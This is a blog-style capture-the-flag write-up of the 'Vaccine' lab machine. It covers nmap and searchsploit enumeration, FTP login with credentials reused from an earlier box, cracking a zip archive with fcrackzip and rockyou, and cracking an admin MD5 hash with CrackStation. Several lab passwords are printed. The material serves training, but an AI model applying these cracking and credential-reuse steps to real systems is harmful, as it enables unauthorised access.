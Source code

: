 ```yaml
---
title: "Writeup: Vaccine"
date: 2021-01-01T11:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - vaccine
  - update
  - Linux
  - fcrackzip
  - ftp
  - crackstation
---
```


Here are notes from the named target:

**Enumeration**

NMAP

```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.46 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.46
 
 tarting Nmap 7.91 ( https://nmap.org ) at 2021-01-01 15:57 EST
Nmap scan report for 10.10.10.46
Host is up (0.13s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: MegaCorp Login
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.60 seconds
```

So Linux server target has 3 services 

1. FTP
2. SSH
3. HTTP

First I want to activally connect to the 3 services:

*HTTP*
browser > 10.10.10.46 > MegaCorp Login Page - try previous accounts - 
admin - MEGACORP_4dm1n!!
robert - M3g4C0rpUs3r!

Neither worked!!

See if any info on versions of FTP and SSH:

*FTP*

Tried anonymous login but that failed - )-:
Tried nmap scan for FTP backdoor

```yaml
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.46                                      1 ⨯ 1 ⚙
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-01 16:25 EST
Nmap scan report for 10.10.10.46
Host is up (0.065s latency).

PORT   STATE SERVICE
21/tcp open  ftp

```

No known vulns for this version of vsFTP 3.0.3, SSH or Apache versions listed - use searchsploit - also no results

```yaml
┌──(kali㉿kali)-[~]
└─$ searchsploit vsftpd 3.0.3 -w                                                                 1 ⚙
Exploits: No Results
Shellcodes: No Results
Papers: No Results
                                                                                                     
┌──(kali㉿kali)-[~]
└─$ searchsploit vsftpd -w                                                                       1 ⚙
-------------------------------------------------------- --------------------------------------------
 Exploit Title                                          |  URL
-------------------------------------------------------- --------------------------------------------
vsftpd 2.0.5 - 'CWD' (Authenticated) Remote Memory Cons | https://www.exploit-db.com/exploits/5814
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Serv | https://www.exploit-db.com/exploits/31818
vsftpd 2.0.5 - 'deny_file' Option Remote Denial of Serv | https://www.exploit-db.com/exploits/31819
vsftpd 2.3.2 - Denial of Service                        | https://www.exploit-db.com/exploits/16270
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | https://www.exploit-db.com/exploits/17491
-------------------------------------------------------- --------------------------------------------
Shellcodes: No Results
Papers: No Results
                                                                                                     
┌──(kali㉿kali)-[~]
└─$ searchsploit OpenSSH 8.0p1 -w                                                                1 ⚙

Exploits: No Results
Shellcodes: No Results
Papers: No Results
                                                                                                     
┌──(kali㉿kali)-[~]
└─$ searchsploit Apache httpd 2.4.41 -w                                                          1 ⚙

Exploits: No Results
Shellcodes: No Results
Papers: No Results
                                                                                                     
┌──(kali㉿kali)-[~]
└─$                 
```

Take a look at the writeup and see that it references an account and password from Target "Oopsie" the filezilla account mentioned in bugreport 2 or 3 anyway i did not follow that so did not have it in my list of accounts so peeked and here it is:

```yaml
The credentials ftpuser / mc@F1l3ZilL4 can be used to login to the FTP server.
```

***lessons learned*** is do post exploit recon for user names and passwords:

Logged in and used FTP GET command to download the file that was there "backup.zip" and use find command to see where it was downloaded to:

```yaml
find / -type f -name backup.zip 2>/dev/null  
```

cat the file to show it is PK zip and contains a file "index.php" in it abut may hav other files

```yaml
                                                                                                     
┌──(kali㉿kali)-[~]
└─$ cat backup.zip                                                                               3 ⚙
PK     "WCP�A:�"
        index.phpUT     ��7^��7^ux
```

Use "unzip" to decompress but file is pass protected:

```yaml
                                                                        
┌──(kali㉿kali)-[~]
└─$ unzip backup.zip                                                                             3 ⚙
Archive:  backup.zip
[backup.zip] index.php password: 

```

Going to use "fcrackzip"  -> https://installlion.com/kali/kali/main/f/fcrackzip/install/index.html

```yaml
(kali㉿kali)-[~]
└─$ fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip                               3 ⚙


PASSWORD FOUND!!!!: pw == 741852963

```

Note: Rockyoy may have to be unpacked on kali as it is a gz by default - This took less than one second to find the password.

Using that password back to unzip the backup.zip file and we get two files:

Cat the index.php and see a MD5 hash for a Admin password:

```yaml
PASSWORD FOUND!!!!: pw == 741852963
                                                                                                     
┌──(kali㉿kali)-[~]
└─$ unzip backup.zip                                                                             3 ⚙
Archive:  backup.zip
[backup.zip] index.php password: 
  inflating: index.php               
  inflating: style.css               
                                                                                                     
┌──(kali㉿kali)-[~]
└─$ cat index.php                                                                                3 ⚙
<!DOCTYPE html>
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
```

used [CrackStation][https://crackstation.net/] on the MD5 hash
```yaml

Hash	Type	Result
2cb42f8734ea607eefed3b70af13bbd3	md5	qwerty789
Color Codes: Green: Exact match, Yellow: Partial match, Red: Not found.

Download CrackStation's Wordlist
```

